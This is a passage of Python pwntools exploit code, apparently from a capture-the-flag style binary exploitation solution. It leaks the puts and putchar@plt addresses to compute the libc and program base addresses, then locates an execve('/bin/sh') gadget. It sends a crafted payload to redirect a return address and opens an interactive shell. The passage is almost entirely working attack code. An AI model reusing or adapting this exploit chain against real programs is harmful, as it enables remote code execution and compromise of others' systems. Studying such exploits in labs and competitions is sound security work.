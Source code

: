 ```Python
    puts_addr_hex_str = two_bytes_MSB + four_bytes_LSB
    puts_addr = int(puts_addr_hex_str, 16)

    io_gdb.recvuntil(">>".encode("ASCII"))
    io_gdb.sendline("3".encode("ASCII"))
    io_gdb.recvuntil(">>".encode("ASCII"))

    # Leak base image <putchar@plt>+6 addr.
    image = get_image(leak_libc=False)

    for idx in range(len(image) // pwntools_send_size + 1):
        io_gdb.send(image[pwntools_send_size * idx:(idx + 1) * pwntools_send_size])

    io_gdb.sendline()
    io_gdb.recvuntil(">>".encode("ASCII"))

    io_gdb.sendline("2")
    io_gdb.recvuntil("HEADER END".encode("ASCII"))
    io_gdb.recvuntil("magic: ".encode("ASCII"))

    four_bytes_LSB = io_gdb.recvn(8)

    io_gdb.recvuntil("checksum: ".encode("ASCII"))
    two_bytes_MSB = io_gdb.recvn(4)

    putchar_plt_plus_6_hex_str = two_bytes_MSB + four_bytes_LSB
    putchar_plt_plus_6_addr = int(putchar_plt_plus_6_hex_str, 16)

    puts_rva = 0x80ED0
    libc_image_base = puts_addr - puts_rva
    execve_bin_sh_rva = 0x50a37
    execve_bin_sh_addr = libc_image_base + execve_bin_sh_rva

    putchar_plt_plus_6_rva = 0x1036
    pcg_image_base = putchar_plt_plus_6_addr - putchar_plt_plus_6_rva
    show_statistics_ret_addr = pcg_image_base + show_statistics_ret_rva

    is_exploitable = check_total_diff(show_statistics_ret_addr, execve_bin_sh_addr)

    if is_exploitable:
        io_gdb.recvuntil(">>".encode("ASCII"))
        io_gdb.sendline("3".encode("ASCII"))
        io_gdb.recvuntil(">>".encode("ASCII"))

        image = get_image(final_exploit=True, base_bin_addr=show_statistics_ret_addr, libc_addr=execve_bin_sh_addr)

        for idx in range(len(image) // pwntools_send_size + 1):
            io_gdb.send(image[pwntools_send_size * idx:(idx + 1) * pwntools_send_size])

        io_gdb.sendline()
        io_gdb.recvuntil(">>".encode("ASCII"))

        io_gdb.sendline("2")

        io_gdb.interactive()

main()

```

